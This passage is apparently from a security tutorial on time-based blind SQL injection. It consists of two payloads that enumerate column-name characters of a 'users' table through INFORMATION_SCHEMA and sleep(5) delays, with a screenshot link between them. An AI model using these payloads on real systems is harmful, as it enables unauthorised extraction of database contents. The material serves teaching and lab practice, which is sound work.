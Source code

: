 
```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),2,1) = 'a' AND sleep(5)-- -
```

[![sqlinjectblindsleep17](/images/sqlinjectblindsleep17.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep17.png)

```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),3,1) = 's' AND sleep(5)-- -
```
